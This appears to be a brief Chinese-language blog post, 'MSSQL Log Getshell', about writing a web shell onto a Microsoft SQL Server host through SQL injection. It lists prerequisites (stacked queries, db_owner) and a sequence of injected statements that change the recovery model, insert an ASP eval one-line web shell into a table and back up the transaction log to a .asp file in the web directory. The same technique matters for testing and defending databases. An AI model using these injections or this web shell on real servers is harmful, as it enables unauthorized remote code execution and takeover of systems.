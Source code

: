 ```yaml
---
title: "MSSQL Log Getshell"
date: 2018-03-14T00:00:00+08:00
draft: false
tags: ['mssql','sqli']
categories: ['web']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


需要支持堆查询.

db_owner 权限即可.

<!--more-->

```
;alter database xxxx set RECOVERY FULL--
;create table cmd (a image)--
;backup log xxxx to disk = 'd:/web/1.bak' with init--
;insert into cmd (a) values ('<% eval request(1) %>')--
;backup log xxxx to disk = 'd:/web/2.asp'--
```



另外还有差异备份, 不过缺点是备份出来的文件会很大.